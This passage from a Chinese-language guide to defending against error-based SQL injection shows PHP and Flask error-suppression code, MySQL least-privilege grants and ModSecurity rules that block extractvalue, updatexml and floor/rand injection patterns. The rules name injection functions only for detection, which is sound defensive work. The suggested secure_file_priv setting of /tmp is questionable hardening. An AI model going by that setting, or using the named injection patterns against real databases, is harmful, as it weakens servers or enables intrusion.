ini_set('display_errors', 'Off');
error_reporting(0);

// 使用自定义错误页面
try {
    // 数据库操作...
} catch (PDOException $e) {
    error_log($e->getMessage());  // 记录到日志
    // 只返回通用错误信息给用户
    echo "服务器内部错误，请稍后重试";
}
```

```python
# Python Flask - 生产环境配置
app.config['DEBUG'] = False  # 关闭调试模式

@app.errorhandler(500)
def internal_error(error):
    db.session.rollback()
    return render_template('500.html'), 500  # 自定义错误页面
```

**最小权限原则：**

```sql
-- 限制应用数据库用户的权限
GRANT SELECT ON myapp_db.* TO 'app_user'@'localhost';
-- 不要授予 FILE、SUPER、PROCESS 等危险权限
-- 不要授予 information_schema 的访问权限（虽然MySQL默认允许读取）

-- 禁用危险函数
-- 在MySQL配置文件中添加：
-- secure_file_priv = /tmp  -- 限制文件操作路径
```

**WAF规则配置（作为纵深防御的补充层）：**

```regex
# ModSecurity规则示例：拦截extractvalue/updatexml报错注入
SecRule ARGS "@rx (?i)(extractvalue|updatexml)\s*\(" \
    "id:1001,phase:2,deny,status:403,\
    msg:'SQL Injection: Error-based injection attempt'"

SecRule ARGS "@rx (?i)(floor|rand)\s*\(.*group\s+by" \
    "id:1002,phase:2,deny,status:403,\
    msg:'SQL Injection: Floor-based error injection attempt'"
```

**总结：** 报错注入的防御核心是参数化查询——它是唯一能从根本上杜绝SQL注入的手段。关闭错误回显和WAF只是补充手段，不应作为唯一防线。
